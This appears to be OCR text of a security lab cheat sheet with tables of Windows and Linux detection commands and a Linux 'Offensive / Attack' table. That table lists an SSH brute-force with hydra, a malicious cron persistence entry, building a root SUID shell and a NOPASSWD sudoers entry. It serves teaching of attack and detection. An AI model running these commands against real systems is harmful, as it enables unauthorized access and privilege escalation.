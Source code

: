   (Process Explorer GUI)                               Inspect running
                                                       processes and their
                                                       properties for
                                                       suspicious activity.

  (TCPView GUI)                                        View active TCP/UDP
                                                       connections and
                                                       associated processes.

  (Sysmon installation + Event Viewer)                 Enable and review
                                                       detailed
                                                       process/file/network
                                                       telemetry for
                                                       detection and forensic
                                                       analysis.
  ---------------------------------------------------------------------------

## **Linux --- Offensive / Attack**

  -----------------------------------------------------------------------
  **Command**                      **Purpose**
  -------------------------------- --------------------------------------
  hydra -l root -P rockyou.txt     SSH brute-force attack from Kali.
  ssh://\<linux_ip\>               

  echo \"\* \* \* \* \*            Add a malicious system cron entry for
  /tmp/malware.sh\" \>\>           frequent/persistent execution.
  /etc/crontab                     

  gcc /tmp/suid.c -o               Compile an example SUID binary (used
  /tmp/suid-shell                  in privilege escalation
                                   demonstrations).

  chown root:root /tmp/suid-shell  Set owner to root for an SUID binary.

  chmod 4755 /tmp/suid-shell       Set SUID bit to allow binary to run
                                   with owner (root) privileges.

  *(visudo edit)* testuser         Add a NOPASSWD sudoers entry (example
  ALL=(ALL) NOPASSWD:              used to demonstrate sudo abuse).
  /tmp/suid-shell                  
  -----------------------------------------------------------------------

## **Linux --- Detection & Response**

  -----------------------------------------------------------------------
  **Command**                   **Purpose**
  ----------------------------- -----------------------------------------
  sudo tail -n 200              View recent authentication events and SSH
  /var/log/auth.log             attempts.

  journalctl -u ssh             View SSH service logs on systemd systems.

  crontab -l                    List the current user\'s crontab entries.
